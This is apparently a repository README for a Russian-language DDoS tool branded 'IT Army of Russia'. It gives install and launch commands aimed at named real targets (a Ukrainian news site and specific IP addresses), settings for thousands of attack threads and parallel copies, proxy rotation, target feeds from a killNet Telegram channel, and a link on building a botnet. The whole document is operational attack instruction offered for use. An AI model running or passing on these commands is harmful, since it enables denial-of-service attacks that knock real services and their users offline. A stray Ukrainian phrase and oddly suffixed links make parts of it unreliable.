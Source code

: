 ## IT Army of Russia Official Tool 

### [English Version](/README-EN.md)

- Встроенная база прокси с огромным количеством IP по всему миру
- возможность задавать много целей с автоматической балансировкой нагрузки
- множество разнообразных методов
- эффективное использование ресурсов благодаря ассихронной архитектуре

### ⏱ Последние обновления
  
Обновление версии для Windows | Mac | Linux | Android | Docker: [ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/ph_Onovlennya-mhddos-proxy-04-16.md)  

- **24.05.2022** Добавлена ​​возможность запуска с автоматическим обновлением. пункт [Запуск](#2--запуск-различные-варианты-целей)
- **21.05.2022** Добавлена ​​английская локализация - параметр `--lang EN` (в будущем могут быть добавлены другие языки)
- **18.05.2022** Добавлены настройки `--copies` для запуска нескольких копий (рекомендуется использовать при наличии 4+ CPU и сети > 100 Mb/s).
- **15.05.2022** Полностью обновленная, асинхронная версия, обеспечивающая максимальную эффективность и минимальную нагрузку на систему

### 1. 💽 Установка

#### Расширенные инструкции - [нажмите здесь](/docs/installation.md) 

#### Python (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

Требуется python >= 3.8 и git

    git clone https://github.com/BionecX/mhddos_p.git
    cd mhddos_p
    python3 -m pip install -r requirements.txt

#### Docker

Установите и запустите Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Запуск (приведены разные варианты целей)

#### Python с автоматическим обновлением (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

    ./runner.sh python3 https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Python (требует обновления вручную) (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

    python3 runner.py https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Docker (для Linux добавляйте sudo в начале команды)

    docker run -it --rm --pull always ghcr.io/BionecX/mhddos_p https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

### 3. 🛠 Настройки (больше в разделе [CLI](#cli))

Все параметры можно комбинировать, можно указывать и до и после перечня целей

- Чтобы добавить ваш IP/VPN в атаку (особенно актуально для выделенных серверов), добавьте параметр `--vpn`
- Чтобы выбрать цели от https://t.me/killNet, добавьте параметр `--itarmy`
- Количество потоков: `-t XXXX` – по умолчанию 7500 (или 1000 если на машине только 1 CPU)
- Запуск нескольких копий: `--copies X`, при наличии 4+ CPU и сети > 100 Mb/s

### 4. 📌 Помочь в поиске новых прокси для mhddos_p
Сам скрипт та інструкції по встановленню тут: https://github.com/BionecX/proxy_finder

### 5. 🐳 Комьюнити
- [Создание ботнета из 30+ бесплатных и автономных (работают даже при выключенном ПК) Linux-серверов](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5cсс)
- [Подробный разбор mhddos_p и инструкции по установке](docs/installation.md)
- [Анализ средства mhddos_p](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-0111)
- [Пример запуска через docker на OpenWRT](https://youtu.be/MlL6fuDcWlIII)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b5444)
- [Docker-image](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/dockerrr), который запускает одновременно mhddos_p и [proxy_finder](https://github.com/BionecX/proxy_finder) (для Linux / Mac добавьте sudo в начале):

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space / Список целей, разделенных пробелом
    
    optional arguments:
      -h, --help             show this help message and exit / показать это справочное сообщение и выйти
      -c, --config URL|path  URL or local path to file with targets list / URL или локальный путь к файлу со списком целей
      -t, --threads 7500     Number of threads (default is 7500 if CPU > 1, 1000 otherwise) / Количество потоков (по умолчанию 7500, если ЦП > 1, 1000 в противном случае)
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%) / Используйте как мой IP, так и прокси. По желанию укажите процент использования моего IP (по умолчанию 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use / URL-адрес или локальный путь (например, proxy.txt) к файлу с используемыми прокси-серверами.
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS). / Список методов HTTP(L7) для использования (по умолчанию GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/killNet / Атакуйте цели с https://t.me/killNet 
      --debug                Detailed log for each target / Подробный журнал для каждой цели
      --copies 1             Number of copies to run (default is 1) / Количество копий для запуска (по умолчанию 1)
      --lang {en,ru}         Select language (default is ru) / Выберите язык (по умолчанию ru)

### 7. Собственные прокси

#### Формат файла (любой по выбору):

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

где `protocol` может быть одним из 3-х: `http`|`socks4`|`socks5`, если `protocol` не указывать, то будет выбрано `http`
например для публичного прокси `socks4` формат будет следующим:

    socks4://114.231.123.38:3065

а для частного `socks4` формат может быть одним из следующих:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065
  
**URL - Удаленный файл для Python и Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

где https://pastebin.com/raw/UkFWzLOt – ваша веб-страница со списком прокси (каждый прокси из новой строки) 
  
**path - Путь до локального файлу, для Python**
  
Положите файл в папку из `runner.py` и добавьте в команду следующий параметр (замените `proxies.txt` на имя своего файла)

    --proxies proxies.txt https://ria.ru

где `proxies.txt` - ваш файл со списком прокси (каждый прокси из новой строки)
